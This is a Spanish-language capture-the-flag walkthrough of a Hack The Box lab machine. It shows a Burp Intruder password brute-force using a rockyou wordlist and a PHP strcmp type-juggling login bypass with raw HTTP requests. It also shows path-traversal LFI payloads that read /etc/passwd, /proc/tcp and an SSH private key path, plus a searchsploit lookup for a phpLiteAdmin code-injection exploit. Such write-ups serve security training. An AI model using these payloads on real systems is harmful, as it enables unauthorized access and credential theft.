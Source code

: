 ## Vulnerability Assessment {-}

### Attaque de typo intruder con burpsuite para el panel en el puerto 80 {-}

> [ ! ] NOTA: como ya hemos echo este typo de attacke en la maquina **TheNotebook**, las imagenes que siguen corresponden a la maquina **TheNotebook**. La technica
es exactamente la misma, solo la IP y la url de las imagenes cambian.

1. Creamos un diccionario basado en el rockyou.txt

    ```bash
    cd content
    head -n 10000 /usr/share/wordlists/rockyou.txt > passwords
    ```

1. Desde burpsuite configuramos el scope hacia la url http://10.10.10.43
1. En firefox le ponemos el foxyproxy para el burpsuite
1. Lanzamos una peticion desde login con admin admin y la interceptamos con el burpsuite
1. En burpsuite le damos al `Ctrl+i` para enviarlo al intruder
1. Configuramos el attacker **Sniper** dando la posicion a la palabra password

    ```r
    knitr::include_graphics("images/notebook-sniper-config.png")
    ```

1. Cargamos el diccionario creado a la payload list y le quitamos el Payload encoding

    ```r
    knitr::include_graphics("images/notebook-sniper-list.png")
    ```

1. En Options creamos un regexp para saver cuando la contraseña es valida

    - en Grep - Extract damos a ADD
    - le damos a Fetch response y seleccionamos el campo invalid password

        ```r
        knitr::include_graphics("images/notebook-fetch-response.png")
        ```

1. Le damos a start attack

Aqui ya aparece la lista de todo los passwords que burp prueba y vemos una columna donde esta escrito `invalid password`.
lo dejamos un ratito y ya podemos ver que filtrando por esta columna vemos una linea donde no esta escrito esto. Ya tenemos la contraseña.


#### Burlear el login panel con TypeJuggling {-}

Mas tarde en el video, el Tito nos muestra el codigo fuente de la pagina de login y se ve que en la comparativa del input **Password**, el
desarollador de la pagina utiliza un codigo php 

```php
if(isset($_POST['username'] == $USER){
    if(strcmp($_POST['password'], $PASS ) == 0){
        S_SESSION['username'] = $USER;
        header( 'Location: manage.php' );
    }
}
```

El problema aqui es que usado el commando `strcmp()` para el password permite al attaquante de burlar esto con un cambio de typo.

Si la request normal es como la siguiente y nos pone `incorrect password`

```bash
POST /login.php HTTP/1.1
Host: 10.10.10.10
User-Agent: ...
Cookie: PHPSESSID=o36osnz71uw900ln395jhs

username=admin&password=admin
```

cambiandole el payload de la siguiente manera nos loggea sin problema

```bash
POST /login.php HTTP/1.1
Host: 10.10.10.10
User-Agent: ...
Cookie: PHPSESSID=o36osnz71uw900ln395jhs

username=admin&password[]=a
```

El symbolo `[]` cambia el typo de variable y el `strcmp()` lo accepta. 

### Attaque de typo intruder con burpsuite para el panel en el puerto 443 {-}

Para el panel de authentification del **phpLiteAdmin**, utilizamos la misma technica que para el panel de authentification del puerto 80 (Burpsuite).
De esta manera tambien encontramos la contraseña y nos podemos connectar a la base de datos.

### Analizamos el panel de administracion del puerto 80 {-}

Aqui vemos un link llamado Notes, pinchamos y se ve una nota. 
Nos llama la attencion la url `10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt`
Intentamos ver si es vulnerable a un **LFI**

```bash
10.10.10.43/department/manage.php?notes=files/../../../../../../etc/passwd
10.10.10.43/department/manage.php?notes=files/../../../../../../etc/passwd%00
```

Aqui nos pone la pagina un mensaje `No notes selected`. Probamos mas cosas.

```bash
10.10.10.43/department/manage.php?notes=files/ninevehNotes
10.10.10.43/department/manage.php?notes=files/ninevehNote
```

La differentes respuestas nos hacen pensar que hay un systema de White words list que functionna unicamente si tenemos la palabra
**ninevehNotes**

```bash
10.10.10.43/department/manage.php?notes=files/ninevehNotes/../../../../../../etc/passwd
10.10.10.43/department/manage.php?notes=ninevehNotes/../../../../../../etc/passwd
10.10.10.43/department/manage.php?notes=/ninevehNotes/../etc/passwd
```

Ya podemos ver el contenido del `/etc/passwd` y vemos un usuario **amrois**

Miramos mas contenidos interresantes

### Checkeamos los puertos internos de la maquina {-}

Siempre es buena idea mirrar los puertos internos que estan abiertos. Desde fuera, connocemos los puertos 80 y 443.

1. Approvechamos del LFI para ver el fichero proc tcp

    ```bash
    10.10.10.43/department/manage.php?notes=files/ninevehNotes/../proc/tcp
    ```

1. copiamos esto en un fichero llamado data
1. recuperamos la columna que contiene los puertos

    ```bash
    cat data
    cat data | awk '{print $2}'
    cat data | awk '{print $2}' | grep -v "address"
    cat data | awk '{print $2}' | grep -v "address" | awk '{print $2}' FS=":"
    cat data | awk '{print $2}' | grep -v "address" | awk '{print $2}' FS=":" | sort -u
    ```

Aqui vemos 3 puertos en formato hexadecimal. Lo miramos con python

```python
python3

>>> 0x0016
22
>>> 0x0050
80
>>> 0x01BB
443
```

Ya sabemos ahora que hay el puerto 22 (ssh) que esta abierto internamente.


### Checkeamos las informaciones del usuario amrois {-}

```bash
10.10.10.43/department/manage.php?notes=files/ninevehNotes/../home/amrois/.ssh/id_rsa
10.10.10.43/department/manage.php?notes=files/ninevehNotes/../home/amrois/user.txt
```

No vemos nada. Vamos a ver lo que podemos hacer con la base de datos del puerto 443

### Analyzando la base de datos {-}

```bash
searchsploit phpliteadmin 1.9
```

Aqui vemos un exploit typo Multiple Vulnerabilities y une Remote PHP Code Injection. Miramos el del RPCI

```bash
searchsploit -x 24044
```

Aqui vemos que si creamos una base de datos, el nombre que entramos sera seguido de la extension appropriada. Un attackante puede
crear una base de datos con una extension php y insertar PHP code para posteriorment ejecutarlo.





